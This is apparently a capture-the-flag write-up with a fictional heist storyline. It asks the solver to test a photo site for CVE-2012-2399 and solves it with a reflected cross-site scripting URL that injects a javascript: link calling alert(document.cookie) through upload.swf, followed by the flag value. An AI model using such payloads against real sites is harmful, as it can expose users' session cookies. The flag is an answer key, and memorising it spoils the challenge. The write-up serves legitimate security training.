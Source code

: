 # 💣 Exposure - L11 C10

One of the Bulldogs, Lara Mindsay, is a surveillance expert and we think she's been using advanced drones to take high resolution photos of the bank from different angles.

She also runs a small legit side project, a photo site which allows anyone to create an account and upload photos. We think she's using it herself to store the bank surveillance photos and so we want to see if it's vulnerable. We've been penetration testing the site but have not had any success so far, then this morning one of the other agents sent me a tip - CVE-2012-2399. Take a look and see if you can use it to see if the site is vulnerable.

**Tip:** Find the vulnerability to get the flag.

💡 **Hint:** What does google say about the CVE? Are there examples of ways to take advantage of this flaw?
   If there are then try them out!

## Step by Step

- Insert the following as the url

`https://www.photobobbins.com/upload.swf?buttonText=%3Ca%20href=%27javascript:alert(document.cookie)%20%27%3EClick%20me%3C/a%3E`

- The flag should show up

`flag: rbvhuK8ROZ3ZTrfxPfyY`
